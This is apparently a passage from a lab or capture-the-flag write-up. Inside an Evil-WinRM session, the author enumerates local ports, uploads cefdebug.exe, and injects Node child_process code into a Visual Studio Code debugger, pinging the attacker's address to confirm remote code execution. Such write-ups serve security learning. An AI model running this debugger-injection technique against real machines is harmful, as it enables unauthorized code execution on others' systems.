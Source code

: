 Seems like there are a lot of `Code` instances running. Let us check out localhost-only listening ports with their PIDs.

```powershell
*Evil-WinRM* PS C:\Users\alcibiades\Documents> netstat -anop tcp

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  [...]
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       2196
  TCP    127.0.0.1:1434         0.0.0.0:0              LISTENING       3872
  TCP    127.0.0.1:17328        0.0.0.0:0              LISTENING       3448
  TCP    127.0.0.1:35941        0.0.0.0:0              LISTENING       1008
  TCP    127.0.0.1:44637        0.0.0.0:0              LISTENING       6800
  TCP    127.0.0.1:54267        0.0.0.0:0              LISTENING       4732
  TCP    127.0.0.1:65114        0.0.0.0:0              LISTENING       5792
```

Seems like the high local ports (17328-65114) belong to Code (see PID). After a bit of research I found [this article](https://medium.com/0xcc/visual-studio-code-silently-fixed-a-remote-code-execution-vulnerability-8189e85b486b) about a RCE in Visual Code. After a bit more research I came across this [Github repository](https://github.com/taviso/cefdebug#known-examples). In the known examples section there are examples on how to attach to a debugger and execute arbitrary code.

#### RCE via Visual Code debugger

We can use evil-winrm to upload the cefdebug.exe:

```powershell
*Evil-WinRM* PS C:\Users\alcibiades\Documents> upload /root/cefdebug.exe
Info: Uploading /root/cefdebug.exe to C:\Users\alcibiades\Documents\cefdebug.exe
                                                             
Data: 346112 bytes of 346112 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\alcibiades\Documents>
```

Now that we have uploaded the binary, let us verify code-execution. First we need to execute the binary to get available sockets.

```powershell
*Evil-WinRM* PS C:\Users\alcibiades\Documents> ./cefdebug.exe
cefdebug.exe : [2020/06/11 09:07:37:9131] U: There are 3 tcp sockets in state listen.
[2020/06/11 09:07:57:9592] U: There were 1 servers that appear to be CEF debuggers.
[2020/06/11 09:07:57:9592] U: ws://127.0.0.1:22322/62bca9f3-6bfb-4c9f-936d-883afa04a191
```

Now that we got the url to a running server, we can try to execute code on it.

```powershell
*Evil-WinRM* PS C:\Users\alcibiades\Documents> ./cefdebug.exe --code "process.mainModule.require('child_process').exec('ping 10.10.14.22')" --url ws://127.0.0.1:22322/62bca9f3-6bfb-4c9f-936d-883afa04a191
cefdebug.exe : [2020/06/11 09:08:06:3739] U: >>> process.mainModule.require('child_process').exec('ping -c 4 10.10.14.22')
[2020/06/11 09:08:06:3896] U: <<< ChildProcess
```
